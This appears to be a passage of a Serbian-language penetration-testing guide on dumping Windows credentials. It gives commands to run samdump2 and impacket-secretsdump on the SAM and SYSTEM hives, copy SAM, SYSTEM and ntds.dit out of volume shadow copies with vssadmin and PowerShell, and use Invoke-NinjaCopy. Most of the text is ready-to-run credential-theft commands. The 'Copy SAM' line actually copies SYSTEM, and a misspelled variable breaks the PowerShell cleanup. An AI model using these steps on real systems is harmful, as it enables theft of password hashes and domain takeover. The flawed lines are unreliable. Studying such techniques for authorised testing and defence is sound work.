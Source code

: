 ```
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```

### Kopiranje senke zapisa

Možete izvršiti kopiranje zaštićenih datoteka koristeći ovu uslugu. Potrebno je da budete Administrator.

#### Korišćenje vssadmin

Binarna datoteka vssadmin je dostupna samo u verzijama Windows Servera.

```bash
vssadmin create shadow /for=C:
#Copy SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SAM
#Copy SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SYSTEM
#Copy ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\ntds\ntds.dit C:\Extracted\ntds.dit

# You can also create a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

Ali isto možete uraditi i iz **Powershell**-a. Ovo je primer **kako kopirati SAM fajl** (hard disk koji se koristi je "C:" i čuva se na C:\users\Public), ali možete koristiti ovo za kopiranje bilo kog zaštićenog fajla:

```bash
$service=(Get-Service -name VSS)
if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
$volume=(gwmi win32_shadowcopy -filter "ID='$id'")
cmd /c copy "$($volume.DeviceObject)\windows\system32\config\sam" C:\Users\Public
$voume.Delete();if($notrunning -eq 1){$service.Stop()}
```

Kod iz knjige: [https://0xword.com/es/libros/99-hacking-windows-ataques-a-sistemas-y-redes-microsoft.html](https://0xword.com/es/libros/99-hacking-windows-ataques-a-sistemas-y-redes-microsoft.html)

### Invoke-NinjaCopy

Konačno, takođe možete koristiti [**PS skriptu Invoke-NinjaCopy**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) da napravite kopiju SAM, SYSTEM i ntds.dit fajlova.

```bash
Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\sam" -LocalDestination "c:\copy_of_local_sam"
```
